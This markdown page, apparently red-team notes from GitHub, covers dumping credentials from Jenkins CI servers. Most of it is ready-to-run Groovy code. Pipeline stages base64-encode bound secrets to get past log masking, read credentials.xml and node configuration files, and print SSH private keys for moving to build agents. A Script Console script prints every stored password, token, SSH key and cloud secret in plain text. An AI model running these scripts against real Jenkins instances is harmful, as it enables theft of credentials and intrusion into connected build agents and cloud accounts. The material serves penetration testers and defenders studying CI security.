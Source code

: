 # Credentials Dumping

## Credentials in Text fields in Credentials List
- We can find the list of credentials name and id at http://host:ip/credentials/
- While this sounds very hypothetical, it is very much real to find credentials in text and name section.
- Possible reason for rewriting credentials in credentials description makes it easier to remember purpose, or for making debugging easy.

## Dumping credentials from logs

- Build logs are generated from the build output.
- In certain cases depending on how the pipeline is created, credentials can get logged in the build output
<img src="buildlog-password1.png">

## Credentials Dumping from pipeline

- We can store various kinds of credentials in Jenkins ( username:password, AWS credential, secret file, secret text, Github credentials, certificate )
- The withCredentials() function can pass the credential id for the required secret and that credential will be available as an environment variable.
- If there are some global credentials or credentials for the current project scope we can dump them. 
- It is important to know the name of the parameter, and if you have guessed correctly we can get the parameter id from here ( http://host:ip/credentials/ )
- Credentials Bindings ( https://www.jenkins.io/doc/pipeline/steps/credentials-binding/ )

- Dumping Username:Password
``` Groovy
stage('Credential Dumping') {
            steps {
                 withCredentials(
                    [usernameColonPassword(credentialsId: '3b258e73-5e16-4338-883e-7a24927aefe1', variable: 'USERPASS')]
                ) {
                    sh '''
                        echo "$USERPASS" | base64
                    '''
                }
            }
        }
```
- Dumping AWS Keys ( References : https://stackoverflow.com/questions/53859575/jenkinsfile-access-aws-credentials )
```
        stage('Credential Dumping') {
            steps {
                 withCredentials([[$class: 'AmazonWebServicesCredentialsBinding',credentialsId: "8ada641e-429c-4547-9921-a1581dbf86ef",accessKeyVariable: 'AWS_ACCESS_KEY_ID',secretKeyVariable: 'AWS_SECRET_ACCESS_KEY'
]]) {
                    sh '''
                        echo "$AWS_ACCESS_KEY_ID" | base64
                    '''
                }
            }
        }
```        

### Credential ID Dumping

- Imagine we don't have access to  ```http://host:ip/credentials/``` to list the credentials id
- We can either look through the code repository hunting for these id or we need a piece of luck we can use Built-In executor
- When ```# of exectors``` in ```Configure System``` is set to non-zero, we can run builds on the controller, which means we have access to the controllers file system.
- Reference - https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
```

<img src="credential-id-dumping.png">

## Credentials & Configuration Dumping Build Agents Information

- This will be somewhat a borderline between credential dumping and lateral movement/backdooring.
- If the Jenkins Controller use SSH to the build agents we can try to dump those ssh keys and get access to the build agents.
- If some fields are not entered during configuration, then they might throw error while calling  withCredentials(sshUserPrivateKey) ( as I have not used paraphrase , trying to dump paraphrase would throw error )
- So we need luck here again as configuration files are stored in controller. 
   - Step 1 : Dump the ssh identifiers
   - Step 2 : Dump the ssh keys ( Reference : https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials )
   - Step 3 : Dump the nodes configuration ( note : the path to the Worker-Node is found through traversing the nodes under $JENKINS_HOME/nodes)
   - Step 4 : Use the user-name, and hostname and ssh-key to login to the build agent
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
        
    stage('Host Information Dumping') {
            steps {      
                  sh '''
                    cat /var/lib/jenkins/nodes/Worker-Node/config.xml
                  '''   
            }
    }
        
    stage('Dumping sshUserPrivateKey') {
        steps {
            script {
                withCredentials([sshUserPrivateKey(
                    credentialsId: 'dd0f4c9e-01dc-47c3-a0cd-3fff32e2a6cd',
                    keyFileVariable: 'keyFile',
                    passphraseVariable: 'passphrase',
                    usernameVariable: 'username')
                ]){
                    print 'keyFile=' + keyFile
                    print 'username=' + username
                    print 'keyFile.collect { it }=' + keyFile.collect { it }
            
                    print 'username.collect { it }=' + username.collect { it }
                    print 'keyFileContent=' + readFile(keyFile)
                }
            }
        }
    }
```

<img src="credential-host-configuration.png">
<img src="credential-ssh-configuration.png">


## Credentials Dumping from Script Console
``` Groovy
//copied from https://gist.github.com/timja/04afb12c8ad909e400317a2ad9c88445
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.common.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.*
import org.jenkinsci.plugins.plaincredentials.impl.*

  
// def item = Jenkins.instance.getItem("your-folder")

def creds = CredentialsProvider.lookupCredentials(
        com.cloudbees.plugins.credentials.Credentials.class,
        Jenkins.instance, // replace with item to get folder or item scoped credentials 
        null,
        null
);

for (credential in creds) {
  if (credential instanceof UsernamePasswordCredentialsImpl) {
    println credential.getId() + " " + credential.getUsername() + " " + credential.getPassword().getPlainText()
  } else if (credential instanceof StringCredentialsImpl) {
    println credential.getId() + " " + credential.getSecret().getPlainText() 
  } else if(credential instanceof BasicSSHUserPrivateKey) {
    println credential.getId() + " " + credential.getUsername() + "\n" + credential.getPrivateKey() + "\n Passphrase: " + credential.getPassphrase()
  } else if (credential.getClass().toString() == "class com.microsoft.azure.util.AzureCredentials") {
    println "AzureCred:" + credential.getSubscriptionId() + " " + credential.getClientId() + " " + credential.getPlainClientSecret() + " " + credential.getTenant()
  } else if (credential.getClass().toString() == "class org.jenkinsci.plugins.github_branch_source.GitHubAppCredentials") {
    println credential.getId() + " " + credential.getUsername() + "\n" + credential.getPrivateKey().getPlainText()
  } else if (credential.getClass().toString() == "class com.cloudbees.jenkins.plugins.awscredentials.AWSCredentialsImpl") {
    println credential.getId() + " " + credential.getAccessKey() + " " + credential.getSecretKey()
  } else if (credential.getClass().toString() == "class com.microsoft.jenkins.keyvault.SecretStringCredentials"
            || credential.getClass().toString() == "class org.jenkinsci.plugins.azurekeyvaultplugin.credentials.string.AzureSecretStringCredentials") {
  } else {
    println credential.getClass()
  } 
}
```
## References
- https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials 
- https://www.jenkins.io/blog/2019/02/21/credentials-masking/
